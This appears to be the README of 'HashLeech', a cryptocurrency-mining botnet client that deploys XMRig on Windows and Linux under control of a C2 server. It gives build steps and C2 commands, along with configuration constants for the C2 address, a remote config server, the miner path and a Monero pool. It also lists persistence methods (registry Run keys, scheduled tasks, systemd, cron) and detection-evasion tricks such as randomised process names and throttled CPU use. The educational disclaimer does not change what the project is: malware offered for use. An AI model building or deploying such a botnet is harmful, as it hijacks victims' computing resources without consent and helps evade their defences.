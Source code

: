 HashLeech - Cryptocurrency Mining Botnet
Disclaimer: This project is for educational and research purposes only. Unauthorized cryptocurrency mining on systems you don't own is illegal and unethical. Use this code only on systems you have explicit permission to test on.

Overview
HashLeech is a cryptocurrency mining botnet implementation that demonstrates how malware can distribute and manage cryptocurrency miners across multiple systems. Unlike traditional botnets focused on DDoS attacks, HashLeech specializes in Monero (XMR) mining using the XMRig miner.

Features
|---------------------------------------------------------------------------|
|Automatic Miner Deployment: Downloads and installs XMRig miner automatically|
|Command & Control (C2) Server: Centralized control of all mining nodes|
|Stealth Operation: Runs with minimal resource usage detection|
|Cross-Platform: Supports both Windows and Linux systems|
|Persistence Mechanisms: Automatically reinstalls after reboots|
|Dynamic Configuration: Remote updates of mining pool and settings|
|Heartbeat Monitoring: Regular status reports to C2 server|
|Resource Optimization: Adjusts mining intensity based on system specs|

graph TD
```
    BotClient[Bot Client (this repository)]
    C2Server[C2 Server (separate repository)]
    XMRig[XMRig Miner]

    BotClient -->|Connects to| C2Server
    BotClient -->|Downloads and runs| XMRig
    BotClient -->|Reports mining statistics| C2Server
    BotClient -->|Implements persistence| BotClient

    C2Server -->|Manages all connected bots| BotClient
    C2Server -->|Sends mining commands| XMRig
    C2Server -->|Collects statistics| BotClient
    C2Server -->|Updates mining configuration| XMRig

    XMRig -->|Official XMRig miner| XMRig
    XMRig -->|Configured for Monero mining| XMRig
```
Installation
For Research/Testing Purposes
Clone the repository:

bash
git clone https://github.com/yourusername/HashLeech.git
cd HashLeech
Configure the C2 server address in bot.go:

go
const C2Address = "your.c2.server.com:7003"
Build the bot:

bash
go build -o HashLeech
Run the bot:

bash
./HashLeech
Command Reference
Command	Description	Example
START	Start mining operation	START
STOP	Stop mining operation	STOP
UPDATE	Update miner binary	UPDATE
KILL	Remove miner and bot	KILL
PERSIST	Install persistence mechanism	PERSIST
Configuration
Edit the following constants in bot.go before building:

go
const (
    C2Address         = "your.c2.server.com:7003"  // Your C2 server address
    xmrigURL          = "https://github.com/xmrig/xmrig/releases/download/v6.20.0/xmrig-6.20.0-msvc-win64.zip"
    configURL         = "http://yourconfigserver.com/config.json" 
    minerPath         = "C:\\Windows\\Temp\\xmrig.exe"           // Windows path
    // minerPath      = "/tmp/xmrig"                            // Linux path
)
Mining Configuration
The config.json file should contain standard XMRig configuration. Example:

json
{
    "autosave": true,
    "cpu": true,
    "opencl": false,
    "cuda": false,
    "pools": [
        {
            "url": "pool.moneroocean.stream:10128",
            "user": "your_wallet_address",
            "pass": "x",
            "keepalive": true,
            "tls": false
        }
    ]
}
Persistence Mechanisms
HashLeech implements multiple persistence methods:

Windows:

Registry Run key

Scheduled tasks

Linux:

Systemd service

Cron job

Init.d script

Detection Avoidance
Randomizes process names

Uses standard TLS for C2 communication

Limits CPU usage to avoid detection

Runs with low process priority

Hides in system temp directories
